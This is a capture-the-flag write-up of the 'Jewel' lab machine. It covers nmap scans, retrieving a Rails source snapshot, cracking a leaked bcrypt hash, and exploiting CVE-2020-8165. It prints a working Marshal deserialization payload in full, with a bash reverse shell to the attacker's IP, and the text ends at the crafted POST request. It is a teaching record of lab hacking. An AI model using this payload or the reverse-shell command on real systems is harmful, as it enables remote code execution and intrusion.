






---
search:
  exclude: true
---
# Jewel Writeup

## Introduction :

Jewel is a Medium box released back in October 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/HTB/jewel]
    → nmap -vvv -p- 10.10.10.211 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.10.10.211
    Discovered open port 8080/tcp on 10.10.10.211
    Discovered open port 8000/tcp on 10.10.10.211
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/HTB/jewel]
    → nmap -sCV -p 22,8080,8000 10.10.10.211 -Pn
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-28 07:30 CEST
    Nmap scan report for 10.10.10.211
    Host is up (0.47s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
    |   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
    |_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
    8000/tcp open  http    Apache httpd 2.4.38
    |_http-generator: gitweb/2.20.1 git/2.20.1
    | http-open-proxy: Potentially OPEN proxy.
    |_Methods supported:CONNECTION
    |_http-server-header: Apache/2.4.38 (Debian)
    | http-title: 10.10.10.211 Git
    |_Requested resource was http://10.10.10.211:8000/gitweb/
    8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
    |_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
    |_http-title: BL0G!
    Service Info: Host: jewel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 29.39 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 8000 with an interesting url **http://10.10.10.211:8000/gitweb/** so let's investigate it:

Click on **snapshot** so we can download the sourcecode and decompress it:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/HTB/jewel]
    → mv ~/Downloads/git-5d6f436.tar.gz .
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/HTB/jewel]
    → tar -zxvf git-5d6f436.tar.gz
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/HTB/jewel]
    → cd .git-5d6f436
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [HTB/jewel/.git-5d6f436]
    → tree .
    .
    ├── app
    │   ├── assets
    │   │   ├── config
    │   │   │   └── manifest.js
    │   │   ├── images
    │   │   │   ├── about.jpg
    │   │   │   ├── bg_1.jpg
    │   │   │   ├── image_1.jpg
    │   │   │   ├── image_2.jpg
    │   │   │   ├── image_3.jpg
    │   │   │   ├── image_4.jpg
    │   │   │   ├── image_5.jpg
    │   │   │   ├── image_6.jpg
    │   │   │   ├── image_7.jpg
    │   │   │   ├── image_8.jpg
    │   │   │   ├── image_9.jpg
    │   │   │   ├── loc.png
    │   │   │   ├── person_1.jpg
    │   │   │   ├── person_2.jpg
    │   │   │   ├── person_3.jpg
    │   │   │   ├── person_4.jpg
    │   │   │   ├── person_5.jpg
    │   │   │   ├── person_6.jpg
    │   │   │   ├── person_7.jpg
    │   │   │   └── person_8.jpg
    │   │   ├── javascripts
    │   │   │   ├── application.js
    │   │   │   ├── cable.js
    │   │   │   └── channels
    │   │   └── stylesheets
    │   │       ├── application.scss
    │   │       ├── articles.scss
    │   │       ├── bootstrap.min.css
    │   │       ├── custom.scss
    │   │       └── home.scss
    │   ├── channels
    │   │   └── application_cable
    │   │       ├── channel.rb
    │   │       └── connection.rb
    │   ├── controllers
    │   │   ├── application_controller.rb
    │   │   ├── articles_controller.rb
    │   │   ├── concerns
    │   │   ├── home_controller.rb
    │   │   ├── sessions_controller.rb
    │   │   └── users_controller.rb
    │   ├── helpers
    │   │   ├── application_helper.rb
    │   │   ├── articles_helper.rb
    │   │   └── home_helper.rb
    │   ├── jobs
    │   │   └── application_job.rb
    │   ├── mailers
    │   │   └── application_mailer.rb
    │   ├── models
    │   │   ├── application_record.rb
    │   │   ├── article.rb
    │   │   ├── comment.rb
    │   │   ├── concerns
    │   │   └── user.rb
    │   └── views
    │       ├── articles
    │       │   ├── edit.html.erb
    │       │   ├── _form.html.erb
    │       │   ├── index.html.erb
    │       │   ├── new.html.erb
    │       │   └── show.html.erb
    │       ├── home
    │       │   └── index.html.erb
    │       ├── layouts
    │       │   ├── application.html.erb
    │       │   ├── mailer.html.erb
    │       │   ├── mailer.text.erb
    │       │   └── _navigation.html.erb
    │       ├── sessions
    │       │   ├── _form.html.erb
    │       │   └── new.html.erb
    │       ├── shared
    │       │   ├── _article_errors.html.erb
    │       │   ├── _messages.html.erb
    │       │   └── _user_errors.html.erb
    │       └── users
    │           ├── edit.html.erb
    │           ├── _form.html.erb
    │           ├── index.html.erb
    │           ├── new.html.erb
    │           └── show.html.erb
    ├── bd.sql
    ├── bin
    │   ├── bundle
    │   ├── rails
    │   ├── rake
    │   ├── setup
    │   ├── update
    │   └── yarn
    ├── config
    │   ├── application.rb
    │   ├── boot.rb
    │   ├── cable.yml
    │   ├── environment.rb
    │   ├── environments
    │   │   ├── development.rb
    │   │   ├── production.rb
    │   │   └── test.rb
    │   ├── initializers
    │   │   ├── application_controller_renderer.rb
    │   │   ├── assets.rb
    │   │   ├── backtrace_silencers.rb
    │   │   ├── content_security_policy.rb
    │   │   ├── cookies_serializer.rb
    │   │   ├── filter_parameter_logging.rb
    │   │   ├── inflections.rb
    │   │   ├── mime_types.rb
    │   │   ├── session_store.rb
    │   │   ├── will_paginate.rb
    │   │   └── wrap_parameters.rb
    │   ├── locales
    │   │   └── en.yml
    │   ├── puma.rb
    │   ├── routes.rb
    │   ├── spring.rb
    │   ├── storage.yml
    │   ├── webpack
    │   │   ├── development.js
    │   │   ├── environment.js
    │   │   ├── production.js
    │   │   └── test.js
    │   └── webpacker.yml
    ├── config.ru
    ├── db
    │   ├── schema.rb
    │   └── seeds.rb
    ├── Gemfile
    ├── Gemfile.lock
    ├── lib
    │   ├── assets
    │   └── tasks
    ├── log
    ├── package.json
    ├── public
    │   ├── 404.html
    │   ├── 422.html
    │   ├── 500.html
    │   ├── apple-touch-icon.png
    │   ├── apple-touch-icon-precomposed.png
    │   ├── favicon.ico
    │   └── robots.txt
    ├── Rakefile
    ├── README.md
    ├── storage
    ├── test
    │   ├── application_system_test_case.rb
    │   ├── controllers
    │   ├── fixtures
    │   │   └── files
    │   ├── helpers
    │   ├── integration
    │   ├── mailers
    │   ├── models
    │   ├── system
    │   └── test_helper.rb
    ├── tmp
    └── vendor
    
    47 directories, 116 files
    

One of the interesting files in here is **bd.sql** and after looking into it we see 2 usernames with their hashed passwords: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [HTB/jewel/.git-5d6f436]
    → cat bd.sql | grep jennifer
    2       jennifer        jennifer@mail.htb       2020-08-25 08:54:42.8483        2020-08-25 08:54:42.8483        $2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [HTB/jewel/.git-5d6f436]
    → cat bd.sql | grep bill
    1       bill    bill@mail.htb   2020-08-25 08:13:58.662464      2020-08-25 08:13:58.662464      $2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
    

So after trying to crack them with **john**
    
    
    john hashes.txt --format=bcrypt --wordlist=/usr/share/wordlists/passwords/rockyou.txt 
    
    

We couldn't get jennifer's password but we did get bill's password: **bill:spongebob** , now obviously this is the repository of the blog website on port 8080: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [HTB/jewel/.git-5d6f436]
    → grep -ri 8080
    config/puma.rb:port        ENV.fetch("PORT") { 8080 }
    
    

` 

So let's create an account at the **/signup** page: 

Then we login at the **/login** page:

Once we're logged in we can't change much of our account, we get to this **/users/18/edit** URL

Now in order to proceed here we need to install a ruby version that matches the one specified in the gemfile:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [HTB/jewel/.git-5d6f436]
    → cat Gemfile
    source 'https://rubygems.org'
    git_source(:github) { |repo| "https://github.com/#{repo}.git" }
    
    ruby '2.5.5'
    
    # Bundle edge Rails instead: gem 'rails', github: 'rails/rails'
    gem 'rails', '= 5.2.2.1'
    # Use postgresql as the database for Active Record
    gem 'pg', '>= 0.18', '< 2.0'
    # Use Puma as the app server
    gem 'puma', '~> 3.11'
    # Use SCSS for stylesheets
    gem 'sass-rails', '~> 5.0'
    # Use Uglifier as compressor for JavaScript assets
    gem 'uglifier', '>= 1.3.0'
    # See https://github.com/rails/execjs#readme for more supported runtimes
    # gem 'mini_racer', platforms: :ruby
    
    # Use CoffeeScript for .coffee assets and views
    gem 'coffee-rails', '~> 4.2'
    # Turbolinks makes navigating your web application faster. Read more: https://github.com/turbolinks/turbolinks
    gem 'turbolinks', '~> 5'
    # Build JSON APIs with ease. Read more: https://github.com/rails/jbuilder
    gem 'jbuilder', '~> 2.5'
    # Use Redis adapter to run Action Cable in production
    gem 'redis', '~> 4.0'
    # Use ActiveModel has_secure_password
    gem 'bcrypt', '~> 3.1.7'
    
    # Use ActiveStorage variant
    # gem 'mini_magick', '~> 4.8'
    
    # Use Capistrano for deployment
    # gem 'capistrano-rails', group: :development
    
    # Reduces boot times through caching; required in config/boot.rb
    gem 'bootsnap', '>= 1.1.0', require: false
    
    gem 'jquery-rails', '= 4.3.3'
    gem 'bootstrap', '~> 4.5.0'
    gem 'popper_js', '1.16.0'
    
    gem 'will_paginate', '3.3.0'
    gem 'bootstrap-will_paginate', '1.0.0'
    
    group :development, :test do
      # Call 'byebug' anywhere in the code to stop execution and get a debugger console
      gem 'byebug', platforms: [:mri, :mingw, :x64_mingw]
    end
    
    group :development do
      # Access an interactive console on exception pages or by calling 'console' anywhere in the code.
      gem 'web-console', '>= 3.3.0'
      gem 'listen', '>= 3.0.5', '<****3.2'
      # Spring speeds up development by keeping your application running in the background. Read more: https://github.com/rails/spring
      gem 'spring'
      gem 'spring-watcher-listen', '~> 2.0.0'
    end
    
    group :test do
      # Adds support for Capybara system testing and selenium driver
      gem 'capybara', '>= 2.15'
      gem 'selenium-webdriver'
      # Easy installation and use of chromedriver to run system tests with Chrome
      gem 'chromedriver-helper'
    end
    
    # Windows does not include zoneinfo files, so bundle the tzinfo-data gem
    gem 'tzinfo-data', platforms: [:mingw, :mswin, :x64_mingw, :jruby]

Now what this file tells us is basically what we need to install this app, similar to requirements.txt for python projects. 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [HTB/jewel/.git-5d6f436]
    → bundle outdated
    Traceback (most recent call last):
            2: from /usr/bin/bundle:23:in `'
            1: from /usr/lib/ruby/vendor_ruby/rubygems.rb:300:in `activate_bin_path'
    /usr/lib/ruby/vendor_ruby/rubygems.rb:281:in `find_spec_for_exe': Could not find 'bundler' (1.17.3) required by your /home/nothing/HTB/jewel/.git-5d6f436/Gemfile.lock. (Gem::GemNotFoundException)
    To update to the latest version installed on your system, run `bundle update --bundler`.
    To install the missing version, run `gem install bundler:1.17.3`
    

We're also going to need **brakeman** to analyse the ruby project further, so let's install it with **gem** : 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/jewel]
    → which gem
    /usr/bin/gem
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/jewel]
    → sudo gem install brakeman
    [sudo] password for nothing:
    Fetching brakeman-5.0.4.gem
    Successfully installed brakeman-5.0.4
    Parsing documentation for brakeman-5.0.4
    Installing ri documentation for brakeman-5.0.4
    Done installing documentation for brakeman after 2 seconds
    1 gem installed
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/jewel]
    → cd .git-5d6f436
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [HTB/jewel/.git-5d6f436]
    → brakeman
    
    [...]
    
     - CheckXMLDoS
     - CheckYAMLParsing
    Checks finished, collecting results...
    Generating report...
    
    == Brakeman Report ==
    
    Application Path: /home/nothing/HTB/jewel/.git-5d6f436
    **Rails Version: 5.2.2.1**
    Brakeman Version: 5.0.4
    Scan Date: 2021-06-29 15:05:57 +0200
    Duration: 0.394887467 seconds
    Checks Run: BasicAuth, BasicAuthTimingAttack, CSRFTokenForgeryCVE, ContentTag, CookieSerialization, CreateWith, CrossSiteScripting, DefaultRoutes, Deserialize, DetailedExceptions, DigestDoS, DynamicFinders, EscapeFunction, Evaluation, Execute, FileAccess, FileDisclosure, FilterSkipping, ForgerySetting, HeaderDoS, I18nXSS, JRubyXML, JSONEncoding, JSONEntityEscape, JSONParsing, LinkTo, LinkToHref, MailTo, MassAssignment, MimeTypeDoS, ModelAttrAccessible, ModelAttributes, ModelSerialize, NestedAttributes, NestedAttributesBypass, NumberToCurrency, PageCachingCVE, PermitAttributes, QuoteTableName, Redirect, RegexDoS, Render, RenderDoS, RenderInline, ResponseSplitting, RouteDoS, SQL, SQLCVEs, SSLVerify, SafeBufferManipulation, SanitizeMethods, SelectTag, SelectVulnerability, Send, SendFile, SessionManipulation, SessionSettings, SimpleFormat, SingleQuotes, SkipBeforeFilter, SprocketsPathTraversal, StripTags, SymbolDoSCVE, TemplateInjection, TranslateBug, UnsafeReflection, UnsafeReflectionMethods, ValidationRegex, VerbConfusion, WithoutProtection, XMLDoS, YAMLParsing
    
    == Overview ==
    
    Controllers: 5
    Models: 4
    Templates: 19
    Errors: 0
    Security Warnings: 1
    
    == Warning Types ==
    
    Cross-Site Request Forgery: 1
    
    == Warnings ==
    
    Confidence: Medium
    Category: Cross-Site Request Forgery
    Check: CSRFTokenForgeryCVE
    Message: Rails 5.2.2.1 has a vulnerability that may allow CSRF token forgery. Upgrade to Rails 5.2.4.3 or patch
    File: Gemfile.lock
    Line: 124
    
    
    

Now if we go by what brakeman tells us, there is only a Cross Site Forgery CVE. So that's why there were less than 2500 roots of this box overall, the initial foothold is hard to even spot, brakeman does not help us here. But the trick here was to spot the **Rails version** which is 5.2.2.1, and this is severely out of date as you can see [here](https://rubygems.org/gems/rails/versions):

So we look for CVEs [here](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=rails):

So we take a look at **CVE-2020-8165** , which is about a deserialization attack on untrusted data which exists in rails **5.2.4.3** and backwards, and basically it allows an attacker to unmarshal user-provided objects in the **MemCacheStore** and **RedisCacheStore** to result in a RCE to get us a reverse shell. So after a bit of googling we stumble upon [this](https://github.com/masahiro331/CVE-2020-8165) repository:

Now here in red you can see the serialized payload, but now the question is will this box's ruby project be vulnerable to that particular deserialization attack ? To find out we take a look at the reference google link at the bottom of the repository:

Now we know what makes this CVE possible, it's the **raw: true** parameter which allows the attacker to write to the cache (redis cache or memcached) and potentially get Remote Code Execution, so let's check out if the current rails project has any of the raw: true parameters:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [HTB/jewel/.git-5d6f436]
    → grep -Ri 'cache.fetch' .
    ./app/controllers/application_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) do
    ./app/controllers/users_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [HTB/jewel/.git-5d6f436]
    → grep -Ri 'raw: true' .
    ./app/controllers/application_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) do
    ./app/controllers/users_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
    
    

Let's see in which context the first one is being used:

Apparently, in the context of when we try to change the current username we are currently logged in the application, we should be able to inject a serialized object since the **raw: true** parameter is being used into the **cache.fetch()** function. Now in order to continue we need to install rails ourselves:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/5 ] [~/HTB/jewel]
    → sudo apt install rails -y
    
    

Now we need to create a rails project:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [HTB/jewel/.git-5d6f436]
    → cd ..
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/jewel]
    → rails new exploit
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/jewel]
    → rails new exploit
          create
          create  README.md
          create  Rakefile
          create  .ruby-version
          create  config.ru
          create  .gitignore
          create  Gemfile
             run  git init from "."
    hint: Using 'master' as the name for the initial branch. This default branch name
    hint: is subject to change. To configure the initial branch name to use in all
    hint: of your new repositories, which will suppress this warning, call:
    hint:
    hint:   git config --global init.defaultBranch 
    hint:
    hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
    hint: 'development'. The just-created branch can be renamed via this command:
    hint:
    hint:   git branch -m name
    Initialized empty Git repository in /home/nothing/HTB/jewel/exploit/.git/
          create  package.json
          create  app
    [...]
    
    

This will create the **exploit** directory, once it's done running we can get a ruby prompt, we can do it with the same command the CVE github repo advised us to do with **bundle exec rails console** or just **rails console** :
    
    
    [...]
    
    ├─ webpack-dev-server@3.11.2
    ├─ websocket-driver@0.7.4
    ├─ websocket-extensions@0.1.4
    └─ ws@6.2.2
    Done in 19.44s.
    Webpacker successfully installed 🎉 🍰
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/jewel]
    → cd exploit
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [HTB/jewel/exploit]
    → rails console
    Running via Spring preloader in process 3266829
    Loading development environment (Rails 6.0.3.5)
    irb(main):001:0>
    
    

Now from our rails console, we generate the payload like so: 
    
    
    code = '`bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"`'
    erb = ERB.allocate
    erb.instance_variable_set :@src, code
    erb.instance_variable_set :@filename, "1"
    erb.instance_variable_set :@lineno, 1
    payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
    
    

With the output of each commands we get the following: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [HTB/jewel/exploit]
    → rails console
    Running via Spring preloader in process 3266829
    Loading development environment (Rails 6.0.3.5)
    irb(main):001:0> code = '`bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"`'
    => "`bash -c \"bash -i >& /dev/tcp/10.10.14.11/9001 0>&1\"`"
    irb(main):002:0> erb = ERB.allocate
    => #ERB:0x000055e564a39130>
    irb(main):003:0> erb.instance_variable_set :@src, code
    => "`bash -c \"bash -i >& /dev/tcp/10.10.14.11/9001 0>&1\"`"
    irb(main):004:0> erb.instance_variable_set :@filename, "1"
    => "1"
    irb(main):005:0> erb.instance_variable_set :@lineno, 1
    => 1
    irb(main):006:0> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
    => "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\":`bash -c \"bash -i >& /dev/tcp/10.10.14.11/9001 0>&1\"`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:\f@linenoi\x06:\f@method:\vresult:...
    irb(main):007:0> payload
    => "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\":`bash -c \"bash -i >& /dev/tcp/10.10.14.11/9001 0>&1\"`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:\f@linenoi\x06:\f@method:\vresult:\t@varI\"\f@result\x06;\tT:\x10@deprecatorIu:\x1FActiveSupport::Deprecation\x00\x06;\tT"
    

So now we generated the serialized payload, but we need to URL encode it with the following command: 
    
    
    irb(main):009:0> puts URI.encode_www_form(payload: payload)
    payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3A%60bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.11%2F9001+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
    
    

And now we have our complete serialized, url encoded payload, that we will use to inject the POST request username parameter we interecept with burpsuite. 

So right now we have this POST request:
    
    
    POST /users/18 HTTP/1.1
    Host: 10.10.10.211:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.211:8080/users/18/edit
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 187
    Origin: http://10.10.10.211:8080
    Connection: close
    Cookie: _session_id=a5fa81a5202880405479de4a764d913d
